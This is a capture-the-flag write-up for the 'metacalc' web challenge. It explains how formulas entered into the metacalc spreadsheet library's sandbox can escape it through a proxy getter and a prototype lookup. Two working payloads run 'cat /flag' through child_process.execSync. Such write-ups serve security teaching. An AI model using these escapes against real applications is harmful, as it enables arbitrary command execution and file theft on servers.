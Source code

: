 # metacalc (Web)
> I ran into this awesome NodeJS spreadsheet library using some custom sandboxing so I tried it out. I even hardened it a bit more. Nothing could ever go wrong

The challenge is a sandbox escape using the latest version of an obscure spreadsheet library, [metacalc](https://github.com/metarhia/metacalc). The library seems to be part of the [Metarhia](https://metarhia.com/) stack, and uses its own VM sanboxing library, [metavm](https://github.com/metarhia/metavm). The challenge isn't just on metavm because then it would really be too easy as copying a nodejs.vm sandbox escape from Google might work - the metacalc library has a bit more hardening applied.

As the description mentions, the library is further modified with this diff:
```diff
--- sheet.o.js	2022-08-11 17:32:27.803553441 -0700
+++ sheet.js	2022-08-11 17:38:51.821472938 -0700
@@ -7,13 +7,16 @@
   new Proxy(target, {
     get: (target, prop) => {
       if (prop === 'constructor') return null;
+      if (prop === '__proto__') return null;
       const value = target[prop];
       if (typeof value === 'number') return value;
       return wrap(value);
     },
   });
 
-const math = wrap(Math);
+// Math has too much of an attack surface :(
+const SlightlyLessUsefulMath = new Object();
+const math = wrap(SlightlyLessUsefulMath);
 
 const getValue = (target, prop) => {
   if (prop === 'Math') return math;
```

The app itself just runs the library and puts your input into a cell.
```js
const { Sheet } = require('metacalc');
const readline = require('readline');

const rl = readline.createInterface({ input: process.stdin, output: process.stdout });
const sheet = new Sheet();

rl.question('I will add 1 to your input?? ', input => {
    sheet.cells["A1"] = 1;
    sheet.cells["A2"] = input;
    sheet.cells["A3"] = "=A1+A2";
    console.log(sheet.values["A3"]);
    process.exit(0);
});
```

I expected multiple solutions for this and people didn't dissapoint - I don't think anyone else used the same solution as me.

The intended solution takes advantage of this line in the proxy:
```js
       const value = target[prop];
```

This lookup is done _outside_ the vm, and triggering the lookup can actually result in a function call if the prop has a getter! We can use that to get outside the vm and then do a standard `execSync('cat /flag')`.
```js
=(function(){({}).constructor.defineProperty(Math, "a", {get: function() {const require = this.constructor.constructor('return process.mainModule.require')(); const flag = require('child_process').execSync('cat /flag').toString(); require('console').log(flag); return 1}})})()||Math.a
```
The `({}).constructor.` gets the `Object` class, and defineProperty is used to define a property `a` on Math that has a getter. The `||Math.a` triggets a call on the getter.

I also came up with this simpler escape, which is why the Math is replaced with a new Object. I forgot to null the prototype for that object, too, though :(
```js
=(function(){ const require = ({}).constructor.getPrototypeOf(Math.abs).constructor('return process.mainModule.require')(); const flag = require('child_process').execSync('cat /flag').toString(); require('console').log(flag); return 1})()
```

```
irisctf{be_careful_of_implicit_calls}
```
